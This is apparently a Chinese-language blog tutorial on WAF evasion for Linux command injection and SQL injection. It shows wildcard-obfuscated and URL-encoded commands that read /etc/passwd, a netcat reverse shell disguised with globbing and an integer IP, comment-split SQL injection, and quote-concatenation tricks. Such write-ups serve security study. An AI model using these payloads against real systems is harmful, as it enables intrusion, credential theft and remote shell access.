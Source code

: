 ```yaml
---
title: 绕过waf
categories:
- waf
tags:
- waf
---
```


## 引子
人生不是做菜，不能等所有材料准备好了再下锅。

## 参考资料
[命令执行的一些绕过技巧](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

[Web Application Firewall (WAF) Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

[Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)

## 正文
本文要讨论的是在linux系统中，当有rce(远程命令执行)漏洞时，绕过waf的操作有哪些。

### 基础知识提要
wildcard通配符，又叫做globbing通配符，有很多语法可以使用？/和数字+字母，就可以执行系统命令。
例如：

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/13.PNG)

```
/???/?s --help
就通过通配符，代替了/bin/ls --help，执行了系统命令
```
如果防火墙没有过滤？和/,那么就可以构造通配符的命令注入

使用这种方式  `/bin/cat /etc/passwd`

可以写为       `/???/??t /??c/p???w?`

然后url编码一下，`%20%2f%3f%3f%3f%2f%3f%3f%74%20%2f%3f%3f%63%2f%70%3f%3f%3f%77%3f`就可以绕过waf进行命令执行。

`/???/??t /??c/p???w?`虽然会执行`/bin/cat /etc/passwd`，但是同时也会执行/dev/net，/etc/apt，因为/???/??t就是以t结尾，规定了字符长度而已，所以会grobbing匹配，也就是环回滚动依次匹配的意思。

### nc反弹shell的案例
```
nc -e /bin/bash 127.0.0.1 1337

/???/n? -e /???/b??h 2130706433 1337
```
使用上面提到的方式，可以将nc反弹shell的语句修改为这样。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/14.PNG)

可以在线转换ip转换为int，这样可以避免使用IP中的小数点，进一步绕过waf规则。

>这里普及一下基础知识：IP地址是一个32位的二进制数，通常被分割为4个“8位二进制数”（也就是4个字节）。IP地址通常用“点分十进制”表示成（a.b.c.d）的形式，其中，a,b,c,d都是0~255之间的十进制整数。例：点分十进IP地址（100.4.5.6），实际上是32位二进制数（01100100.00000100.00000101.00000110）

### 使用`?`而不是`*`

在linux中，？和*都可以作为通配符。但是在sql中`/*代表注释*/`，所以最好使用更加不容易被过滤的`？`而不是`*`

### 如果过滤了ls可以使用echo
echo /???/??ss??

可以枚举存在的目录和文件
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/15.PNG)

### sql注入-waf绕过
使用注释/**/代替空格，例如`/?id=1+un/**/ion+sel/**/ect+1,2,3--`
不能在本地文件包含或者命令执行中使用。

参考fluxcapacitor，使用连接字符串，绕过waf

### 连接符过waf
这种方法可以过滤以正则表达式搜索短语的过滤规则。

+ 加号，在许多编程语言中，通常可以连接两个字符串

在php中，点号.可以连接两个字符串，例如
```
$ php -r 'echo "hello"." world"."\n";'
hello world
$ python -c 'print "hello" + " world"'
hello world
```
在python中，空格和双引号可以连接两个字符串，例如：
python -c 'print "te" "st"'

在bash中，单引号可以作为连接符，注意单引号要成双数来闭合引号。
```
# echo test
# echo 't'e's't
# echo 'te'st
# echo 'te'st''
# echo 'te'''st''
```
